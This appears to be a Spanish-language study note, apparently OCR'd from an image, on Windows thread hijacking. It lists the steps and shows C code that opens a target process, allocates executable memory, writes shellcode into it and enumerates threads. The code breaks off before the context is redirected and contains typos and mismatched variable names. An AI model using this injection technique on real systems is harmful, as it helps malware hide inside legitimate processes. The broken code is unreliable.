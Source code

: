 # Abusar el proceso de los componentes

Una ejecicón de hijacking en alto nivel tiene estos pasos

1. Localizar el proceso a controlar
2. Alojar la región de memoria con código malicioso
3. Escribir el código malicoso en la region
4. Identificar el ID del target
5. Abrir el target
6. Suspenderlo
7. OBtener el contex
8. Actualizar la instrucción apuntando a nuestro código
9. Reescribir el contexto
10. Resumen

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```
```
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```
```
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
```